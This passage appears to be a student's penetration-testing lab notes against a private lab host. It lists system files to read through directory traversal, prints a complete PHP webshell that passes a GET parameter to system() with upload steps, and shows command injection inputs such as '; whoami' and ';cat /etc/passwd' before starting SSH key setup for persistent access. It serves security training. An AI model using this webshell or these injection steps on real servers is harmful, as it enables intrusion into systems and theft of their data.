 

	
	
#### directory traversal files to read:
		- /etc/passwd		:	user information ((look for login shells/bash shells!)
		- /etc/group		:	groups that users are in ((look for root|adm|sudo))
		- /etc/hosts		:	shows webservers, dns servers, internal networks, or labelled network information	
		- /etc/resolv.conf	:	shows internal IP networks we can scan for
		- /etc/networks		:	tbh not exactly sure but likely not a big deal
		

### b. Malicious File Upload (Webshell) - Information/Access

- Can you upload? Yes (.php)
- Are file extensions being sanitized? No
- Can you access the uploads directory? Yes
- demo site: http://10.50.34.125/uploads/webshell.php
- webshell.php:

```
<HTML><BODY>
  <FORM METHOD="GET" NAME="myform" ACTION="">
  <INPUT TYPE="text" NAME="cmd">
  <INPUT TYPE="submit" VALUE="Send">
  </FORM>
  <pre>
  <?php
  if($_GET['cmd']) {
    system($_GET['cmd']);
    }
  ?>
  </pre>
  </BODY></HTML>
```

STEPS:
1. Go to 10.50.34.125
2. Upload webshell.php
3. Go back to 10.50.34.125/cmdinjection/cmdinjectdemo.php
4. try entering commands (must have a semicolon before command, i.e. `; whoami`

### c. SSH Keys - Access

ssh student@x.x.x.x
password

##### 1. Generating SSH KEYS

1. On whichever host you plan on logging in from, generate keys. (10.150.34.125)
	- `ssh-keygen -t rsa -b 4096`
	- Public key is found in /home/student/.ssh/id_rsa.pub

```ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCnyLyyhsXRBrjshi4WbMDMQ+nZuqH3nYnEMOUwqYPU6kyVDRq3+BBQ0yWrqF7OeP0WkGnkQq15MHTwqlZVcC3L/TuRhU8jq/ABErO/WK7HB0M3DAQ6bKBsTyunUKmD7g0I9TgFb0/WRk988Q91nbx129m+KaeXu9oh6pxdtIT4XxWHZMHVngEGe8qCs1OFSpTLYb0wpcDdGtaj88QbmoiU2zgMiGgidiGyab0vLX3hRoyaxPh3xtIcopnJamistVeFCCgz0GsAikvMDiGo1RsVOmOzTqNBrosSgMH8kSrQb47agAMdp8FIuLb7Bx6mInkipL3ZT+yHCs7BXME3E34v student@linux-opstation-0yyk```


##### 2. Determine the user on the webserver

`; whoami`

- resuslt: www-data


##### 3. Determine the user's home directory

`;cat /etc/passwd`

```